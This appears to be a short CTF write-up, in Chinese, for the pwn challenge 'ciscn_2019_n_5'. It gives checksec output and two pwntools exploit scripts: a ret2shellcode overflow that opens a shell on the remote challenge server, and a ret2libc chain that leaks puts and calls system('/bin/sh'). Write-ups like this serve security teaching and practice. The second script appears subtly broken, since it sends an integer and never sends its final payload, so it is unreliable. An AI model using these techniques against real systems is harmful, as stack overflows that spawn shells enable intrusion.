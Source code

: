 

## 0x12.ciscn_2019_n_5

啥都没开，刺激。

```
yutao@pwnbaby:~/Desktop$ checksec ciscn_2019_n_5
[*] '/home/yutao/Desktop/ciscn_2019_n_5'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

可以ret2libc或者ret2shellcode

这里要加架构名称，不然报错。

```python
from pwn import *
context(log_level='DEBUG')
context(arch='amd64',os='linux')
#io = process("./ciscn_2019_n_5")
io = remote('node3.buuoj.cn',28410)
io.recv()
payload_add = 0x0601080
payload = asm(shellcraft.sh()) 
io.send(payload)
io.recv()
payload = 'a'*0x28+p64(payload_add)
io.sendline(payload)
io.interactive()
```

注意Ubuntu18的话要加一个ret栈对齐

```python
from pwn import *
from LibcSearcher import LibcSearcher
context(log_level='DEBUG')
io = process("./ciscn_2019_n_5")
elf = ELF('./ciscn_2019_n_5')
#io = remote('node3.buuoj.cn',28410)
io.recv()
io.sendline("123")
pop_rdi_ret = 0x00400713
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
main = 0x400636
io.recv()
payload = 'a'*0x28+p64(pop_rdi_ret) + p64(puts_got)+p64(puts_plt)+p64(main)
io.sendline(payload)
puts_addr = u64(io.recv(6).ljust(8, '\x00'))
libc = LibcSearcher('puts',puts_addr)
base = puts_addr - libc.dump('puts')
sys_addr = base + libc.dump('system')
bin_sh = base + libc.dump('str_bin_sh')
io.sendline(11)
ret = 0x4004c9
payload = 'a'*0x28+p64(ret)+p64(pop_rdi_ret) +p64(bin_sh)+ p64(sys_addr)
io.interactive()
```
